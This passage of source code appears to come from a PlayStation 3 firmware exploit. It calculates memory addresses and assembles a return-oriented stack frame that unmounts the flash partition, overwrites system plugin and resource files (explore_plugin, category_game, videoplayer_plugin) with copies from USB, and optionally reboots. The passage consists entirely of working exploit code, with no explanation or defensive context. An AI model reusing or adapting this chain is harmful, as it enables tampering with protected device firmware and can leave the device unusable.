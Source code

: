 		explore_pluginrco2_blind_addr=explore_pluginrco2_usb_readlen_addr+dword_size;
		explore_pluginrco2_blindfd_addr=explore_pluginrco2_blind_addr+explore_pluginrco2_blind.convertedSize();
		explore_pluginrco2_blind_writelen_addr=explore_pluginrco2_blindfd_addr+word_size;
		store_idx_arr1[1]=(explore_pluginrco2_blind_writelen_addr-flash_partition_addr+0x8)/2;
		
		explore_plugin_usb_addr=explore_pluginrco2_blind_writelen_addr+dword_size;
		explore_plugin_usbfd_addr=explore_plugin_usb_addr+getPath(explore_plugin_usb).convertedSize();
		explore_plugin_usb_readlen_addr=explore_plugin_usbfd_addr+word_size;
		
		explore_plugin_blind_addr=explore_plugin_usb_readlen_addr+dword_size;
		explore_plugin_blindfd_addr=explore_plugin_blind_addr+explore_plugin_blind.convertedSize();
		explore_plugin_blind_writelen_addr=explore_plugin_blindfd_addr+word_size;
		store_idx_arr1[2]=(explore_plugin_blind_writelen_addr-flash_partition_addr+0x8)/2;
		
		category_game_usb_addr=explore_plugin_blind_writelen_addr+dword_size;
		category_game_usbfd_addr=category_game_usb_addr+getPath(category_game_usb).convertedSize();
		category_game_usb_readlen_addr=category_game_usbfd_addr+word_size;
		
		category_game_blind_addr=category_game_usb_readlen_addr+dword_size;
		category_game_blindfd_addr=category_game_blind_addr+category_game_blind.convertedSize();
		category_game_blind_writelen_addr=category_game_blindfd_addr+word_size;
		store_idx_arr1[3]=(category_game_blind_writelen_addr-flash_partition_addr+0x8)/2;
		
		videoplayer_plugin_usb_addr=category_game_blind_writelen_addr+dword_size;
		videoplayer_plugin_usbfd_addr=videoplayer_plugin_usb_addr+getPath(videoplayer_plugin_usb).convertedSize();
		videoplayer_plugin_usb_readlen_addr=videoplayer_plugin_usbfd_addr+word_size;
		
		videoplayer_plugin_blind_addr=videoplayer_plugin_usb_readlen_addr+dword_size;
		videoplayer_plugin_blindfd_addr=videoplayer_plugin_blind_addr+videoplayer_plugin_blind.convertedSize();
		videoplayer_plugin_blind_writelen_addr=videoplayer_plugin_blindfd_addr+word_size;
		store_idx_arr1[4]=(videoplayer_plugin_blind_writelen_addr-flash_partition_addr+0x8)/2;
		
		null_addr=videoplayer_plugin_blind_writelen_addr+dword_size;
		store_idx_arr2[0]=(null_addr-flash_partition_addr+0xC)/2;
		store_idx_arr2[1]=(null_addr-flash_partition_addr+0x10)/2;
		store_idx_arr2[2]=(null_addr-flash_partition_addr+0x14)/2;
		store_idx_arr2[3]=(null_addr-flash_partition_addr+0x18)/2;
		store_idx_arr2[4]=(null_addr-flash_partition_addr+0x1C)/2;
		stat_addr=null_addr+dword_size*0x5;
		reboot_sf_addr=stat_addr+dword_size*0xD;
//############################ Building stack frame ###############################################################
		stack_frame=stack_frame_hookup()
		+syscall(sc_fs_umount,flash_partition_addr,fs_addr,mount_path_addr,0,0,0,0,0)
		+copy_file_overwrite(explore_pluginrco_usb_addr,explore_pluginrco_blind_addr,explore_pluginrco_usbfd_addr,explore_pluginrco_blindfd_addr,explore_pluginrco_buf_addr,explore_pluginrco_usb_readlen_addr,explore_pluginrco_blind_writelen_addr,stat_addr,null_addr,null_addr+0x8)
		+copy_file_overwrite(explore_pluginrco2_usb_addr,explore_pluginrco2_blind_addr,explore_pluginrco2_usbfd_addr,explore_pluginrco2_blindfd_addr,explore_pluginrco2_buf_addr,explore_pluginrco2_usb_readlen_addr,explore_pluginrco2_blind_writelen_addr,stat_addr,null_addr,null_addr+0xC)
		+copy_file_overwrite(explore_plugin_usb_addr,explore_plugin_blind_addr,explore_plugin_usbfd_addr,explore_plugin_blindfd_addr,explore_plugin_buf_addr,explore_plugin_usb_readlen_addr,explore_plugin_blind_writelen_addr,stat_addr,null_addr,null_addr+0x10)
		+copy_file_overwrite(category_game_usb_addr,category_game_blind_addr,category_game_usbfd_addr,category_game_blindfd_addr,category_game_buf_addr,category_game_usb_readlen_addr,category_game_blind_writelen_addr,stat_addr,null_addr,null_addr+0x14)
		+copy_file_overwrite(videoplayer_plugin_usb_addr,videoplayer_plugin_blind_addr,videoplayer_plugin_usbfd_addr,videoplayer_plugin_blindfd_addr,videoplayer_plugin_buf_addr,videoplayer_plugin_usb_readlen_addr,videoplayer_plugin_blind_writelen_addr,stat_addr,null_addr,null_addr+0x18)
		+optional_reboot(reboot_sf_addr,explore_pluginrco_blind_writelen_addr,explore_pluginrco2_blind_writelen_addr,explore_plugin_blind_writelen_addr,category_game_blind_writelen_addr,videoplayer_plugin_blind_writelen_addr)
		//graceful exit
		+stack_frame_exit();
